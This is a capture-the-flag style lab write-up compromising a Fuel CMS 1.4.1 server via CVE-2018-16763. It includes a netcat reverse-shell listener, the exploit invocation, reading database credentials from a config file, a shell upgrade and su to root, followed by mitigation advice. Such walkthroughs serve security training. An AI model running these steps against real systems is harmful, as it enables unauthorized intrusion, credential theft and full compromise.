


## 🔎 Reconnaissance

An initial **reconnaissance phase** was performed to identify exposed services and potential entry points into the target machine.

A network scan was conducted using **Nmap** to detect open ports, running services, and system information:

```bash
nmap -sV -sS -O 10.129.158.61
```


The scan results revealed that only **port 80 (HTTP)** was open.

Since this was the only exposed service, the focus of the assessment shifted towards analyzing the **web application** as the primary attack surface.


## 🔍 Enumeration & Vulnerability Analysis

To begin the enumeration phase, the **HTTP service** was accessed through a web browser to analyze the application manually.


Further inspection revealed the presence of a **user guide**, which disclosed that the application was running **Fuel CMS version 1.4.1**. This information was critical, as it enabled targeted vulnerability research.

A search for known vulnerabilities affecting this version led to the discovery of a **Remote Code Execution (RCE)** vulnerability (**CVE-2018-16763**). This flaw allows attackers to execute arbitrary system commands via the `filter` parameter in the following endpoint:

```text
/fuel/pages/select/?filter=
```

Additional research across security advisories and exploit databases confirmed that this vulnerability is publicly known and exploitable.

A working exploit was then identified in a public GitHub repository:

👉 [Fuel CMS 1.4.1 RCE Exploit](https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated/blob/main/Fuel-Updated.py)

This exploit is written in **Python** and leverages the vulnerable endpoint to achieve **remote command execution** on the target system.

The script was downloaded and prepared for use in the next phase of the attack.


## 💥 Exploitation

After identifying the **Remote Code Execution (RCE)** vulnerability in **Fuel CMS 1.4.1**, the next step was to exploit it to gain access to the target system.

A publicly available Python exploit was used to leverage this vulnerability and execute commands on the server.

To establish a connection with the target, a Netcat listener was configured on the attacker's machine:

```bash
nc -lvnp 4444
```

The exploit was then executed with the appropriate parameters:

```bash
python3 Fuel-Updated.py http://10.130.137.229 10.129.79.84 4444
```

Once executed, the target system initiated a connection back to the attacker, resulting in a **reverse shell** under the `www-data` user.

Basic enumeration commands were used to verify access:

```bash
whoami
ls
```

This confirmed successful initial access to the system.


## 🧠 Post-Exploitation

After obtaining initial access to the system, further enumeration was performed to identify sensitive files and potential privilege escalation vectors.

The web application directory was explored, revealing configuration files that contained valuable information:

```bash
pwd
ls -la
```

During this process, a configuration file was identified:

```bash
cat /var/www/html/fuel/application/config/database.php
```

This file contained database credentials, including a password associated with the `root` user.

---

## 🔐 Privilege Escalation

The initial shell obtained was non-interactive, which limited the execution of certain commands such as `su`.

To resolve this limitation, the shell was upgraded by spawning a pseudo-terminal using Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This technique leverages Python's `pty` module to create a **pseudo-terminal (PTY)**, allowing the attacker to interact with the system in a more stable and fully functional shell environment.

Without a proper TTY, commands like `su` may fail or not prompt for a password correctly. By upgrading the shell, full interaction with the system becomes possible.

Using the credentials previously discovered, it was possible to switch to the root user:

```bash
su root
```

After entering the password, root access was successfully obtained.

Finally, the root flag was retrieved:

```bash
cat /root/root.txt
```

---

## 🏁 Conclusion

This assessment demosnstrated how a vulnerable web application can lead to a full system compromise.

By exploting a **Remote Code Execution (RCE)** vulnerability in **Fuel CMS 1.4.1**, it was possible to gain initial access to the target system. From there, improper handling of sensitive information allowed the discovery of credentials, which were later used to escalate privileges and obtain **root access**.

This scenario highlights the risks of running outdated software with known vulnerabilities, as well as the dangers of exposing sensitive credentials within configuration files.

### ⚠️ Impact

- Remote attackers can execute arbitrary commands on the server  
- Unauthorized access to sensitive data  
- Full system compromise (root access)  
- Potential lateral movement in a real-world environment  

### 🛡️ Mitigation

- Keep software up to date and apply security patches regularly  
- Avoid exposing sensitive credentials in configuration files  
- Implement proper access controls and least privilege principles  
- Restrict access to administrative interfaces  
- Validate and sanitize user input to prevent injection vulnerabilities  

---

This lab highlights the importance of proper system hardening and secure development practices to prevent critical vulnerabilities such as RCE.


